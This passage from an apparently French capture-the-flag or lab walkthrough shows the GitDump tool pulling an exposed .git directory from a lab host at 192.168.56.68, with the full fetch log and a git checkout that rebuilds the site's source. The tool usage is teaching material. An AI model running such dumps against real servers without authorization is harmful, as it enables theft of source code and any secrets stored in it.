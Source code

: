 Finalement j'aurais plus de succès avec [GitDump: A pentesting tool that dumps the source code from .git even when the directory traversal is disabled](https://github.com/Ebryx/GitDump) qui est pourtant moins récent :

```bash
$ python git-dump.py http://192.168.56.68/.git/
URL for test: http://192.168.56.68/.git/
Fetching: http://192.168.56.68/.git/index
Fetching: http://192.168.56.68/.git/FETCH_HEAD
Fetching: http://192.168.56.68/.git/HEAD
Fetching: http://192.168.56.68/.git/ORIG_HEAD
Fetching: http://192.168.56.68/.git/config
Fetching: http://192.168.56.68/.git/description
Fetching: http://192.168.56.68/.git/packed-refs
Fetching: http://192.168.56.68/.git/info/exclude
Fetching: http://192.168.56.68/.git/info/refs
Fetching: http://192.168.56.68/.git/logs/HEAD
Fetching: http://192.168.56.68/.git/logs/refs/heads/develop
Fetching: http://192.168.56.68/.git/logs/refs/heads/master
Fetching: http://192.168.56.68/.git/logs/refs/remotes/origin/develop
Fetching: http://192.168.56.68/.git/logs/refs/remotes/origin/step_develop
Fetching: http://192.168.56.68/.git/logs/refs/remotes/origin/master
Fetching: http://192.168.56.68/.git/logs/refs/remotes/github/master
Fetching: http://192.168.56.68/.git/refs/heads/develop
Fetching: http://192.168.56.68/.git/refs/remotes/origin/develop
Fetching: http://192.168.56.68/.git/refs/heads/master
Fetching: http://192.168.56.68/.git/refs/remotes/origin/step_develop
Fetching: http://192.168.56.68/.git/refs/remotes/github/master
Fetching: http://192.168.56.68/.git/objects/info/packs
Fetching: http://192.168.56.68/.git/refs/remotes/origin/master
Fetching: http://192.168.56.68/.git/refs/remotes/origin/HEAD
Parsing Index File
Fetching: http://192.168.56.68/.git/objects/47/b639702ccbb7cc5ce9c38556560b617e604fcd
Fetching: http://192.168.56.68/.git/objects/77/bb51c7a9c58ca7da8161b9cbcfb098c519ae09
Fetching: http://192.168.56.68/.git/objects/dc/29515021bb64943226019ef14cd0a9ce940907
Fetching: http://192.168.56.68/.git/objects/c7/8b76780fe411eb7786a15b99fc02c05cc1c1f5
Fetching: http://192.168.56.68/.git/objects/a5/5129286e6535d241fdcec8433f29915bcf2595
Fetching: http://192.168.56.68/.git/objects/3f/ec32c842751033d92c8967eba40c3911333a78
Fetching: http://192.168.56.68/.git/objects/5a/928f6da25ac6d6ba65480b76d03a71cb906138
Fetching: http://192.168.56.68/.git/objects/13/6beafb81ce4aa2b0b9225df70a4cd06f7e7940
Fetching: http://192.168.56.68/.git/objects/2a/89468d12d2133daa2354a9dd28cf52ae0548cd
Fetching: http://192.168.56.68/.git/objects/d3/4bb4259d9acb437d9f089aaa6f25343bb2611c
Fetching: http://192.168.56.68/.git/objects/00/00000000000000000000000000000000000000
Fetching: http://192.168.56.68/.git/objects/69/64f6c4d5750690695312138bdfa70338195d5a
Fetching: http://192.168.56.68/.git/objects/08/1b5357b1dffb3ff3f1a486907b6ff86207a6a8
Fetching: http://192.168.56.68/.git/objects/2a/e9352c194523e3fbdc50ade4bcd620162d9016
Fetching: http://192.168.56.68/.git/objects/9b/643e869b2f4d5257ae8dcb82f0d6276d6a28b5
Fetching: http://192.168.56.68/.git/objects/99/8441a9bf12a5c61126a38b9aa92f7bdb3fed41
Script Executed Successfully
Run following command to retrieve source code: cd output && git checkout -- .
$ cd output/
$ git checkout -- .
erreur : unable to read sha1 file of images/mp3-file.png (6964f6c4d5750690695312138bdfa70338195d5a)
erreur : unable to read sha1 file of images/youtube.png (2ae9352c194523e3fbdc50ade4bcd620162d9016)
erreur : unable to read sha1 file of js/jquery-3.5.0.min.js (47b639702ccbb7cc5ce9c38556560b617e604fcd)
erreur : unable to read sha1 file of js/main.js (9b643e869b2f4d5257ae8dcb82f0d6276d6a28b5)
```

